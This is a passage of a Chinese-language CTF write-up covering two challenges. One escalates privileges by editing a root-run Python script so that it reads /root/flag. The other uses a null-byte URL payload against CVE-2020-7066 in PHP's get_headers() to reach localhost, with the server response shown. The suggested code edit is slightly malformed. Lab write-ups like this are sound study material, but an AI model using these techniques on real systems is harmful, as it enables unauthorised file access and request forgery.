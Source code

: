 ```bash
#!/bin/sh
while true; do (python /var/mail/makeflaghint.py &) && sleep 60; done
```

之后找到文件，发现此为`root`组的文件，结合提示，尝试从此文件进行文件读取

```python
import os
import io
import time
os.system("whoami")
gk1="data"
gk="\nGet The RooT,The Date Is Useful!"
f=io.open("/flag.hint", "rb+")
f.write(str(gk1))
f.write(str(gk))
f.close()
```

可以看到可以进行文件读取并写入，改为 `gk1=open("/root/flag").open()` 即可成功读取到flag

### cve版签到

> Hint: CVE-2020-7066

查阅得知，此cve可以在url中通过`%00`截断错误地解析地址，从而访问到我们所需要的地址

> In PHP versions 7.2.x below 7.2.29, 7.3.x below 7.3.16 and 7.4.x below 7.4.4, while using get_headers() with user-supplied URL, if the URL contains zero (\0) character, the URL will be silently truncated at it. This may cause some software to make incorrect assumptions about the target of the get_headers() and possibly send some information to a wrong server.

因而

```text
url=http://127.0.0.1%00www.ctfhub.com
```

得到

```text
Array
(
    [0] => HTTP/1.1 200 OK
    [1] => Date: Mon, 25 May 2020 03:09:24 GMT
    [2] => Server: Apache/2.4.38 (Debian)
    [3] => X-Powered-By: PHP/7.3.15
    [4] => Tips: Host must be end with '123'
    [5] => Vary: Accept-Encoding
    [6] => Content-Length: 113
    [7] => Connection: close
    [8] => Content-Type: text/html; charset=UTF-8
)
```

按要求访问123得flag
